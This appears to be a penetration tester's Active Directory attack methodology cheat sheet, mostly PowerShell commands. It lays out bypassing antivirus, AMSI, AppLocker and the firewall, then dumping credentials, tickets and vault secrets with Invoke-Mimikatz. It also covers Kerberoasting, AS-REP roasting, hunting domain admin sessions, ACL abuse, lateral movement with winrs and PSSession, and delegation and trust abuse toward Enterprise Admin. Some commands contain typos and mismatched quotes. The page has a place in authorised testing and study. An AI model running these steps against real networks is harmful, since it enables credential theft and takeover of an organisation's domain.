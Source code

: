 # Methodology

## Beginning

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Bypass/deactivate AV/AMSI/
<strong>Bypass/deactivate AppLocker Policies
</strong>Bypass/deactivate Firewall
Get local Admin
Dump local users/tickets with mimikatz
  Invoke-mimikatz -command '"sekurlsa::logonpasswords'"
  Invoke-mimikatz -command '"sekurlsa::ekeys"'

. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
<strong>
</strong>. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess

<strong>Invoke-Sharefinder -vebose -domain ....
</strong><strong>
</strong><strong>Bloodhound/Sharphound
</strong><strong>=> Adding High-Value Targets (CS) / Set....
</strong><strong>=> Shortest Paths (CS) / Shortest Paths from Owned Principals (including everything)
</strong><strong>
</strong><strong>
</strong>Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "yourusername"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "GroupName"}
=> Bloodhound: Open User / Outbound object control
<strong>
</strong><strong>DA with running sessions and local admin of us
</strong>Invoke-Userhunter -groupname "domain admins"

Kerberoast:
Get-DomainUser -SPN

AS-REP Roasting:
Get-DomainUser -PreauthNotRequired -verbose
. .\ASREPRoast\ASREPRoast.ps1
Invoke-ASREPRoast -verbose
 
<strong>
</strong></code></pre>



## New User

**=> New Bloodhound/Sharphound collection**

**Enumerate where you have local admin with the new user**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Find-LocalAdminAccess -Verbose  ==> Results weird?!?!
<strong>
</strong><strong>. ./Find-WMILocalAdminAccess.ps1
</strong>Find-WMILocalAdminAccess
Find-WMILocalAdminAccess - Computerfile computer.txt -verbose (all domain Computerhostnames from Get-NetComputer)
winrs -r:hostname cmd
Enter-PSSession -ComputerName hostname.fqdn.local

. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
winrs -r:hostnamee cmd
Enter-PSSession -ComputerName hostname.fqdn.local

</code></pre>

**Enumerate Sessions with the new privs, because you need to be local admin**&#x20;

```powershell
Invoke-Userhunter -groupname "domain admins"
```

**Find modifieable ACLs with user / Member Groups**

{% code overflow="wrap" %}
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "yourusername"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "GroupNameWhereYourUserIsMemberOf"}

=> AS-REP Roasting eg.
=> Set Permissions
```
{% endcode %}





### New Computer

**Dump Creds from Lsass**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"
```

**Dump creds from credential vault (Scheduled Tasks)**

```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

**Unconstrained delegation of the machine and domain admin connects to that machine?**

**If we have Trusts, get Enterprise Admin with authenitcation of dc of the forest to authenticate to us.**



\
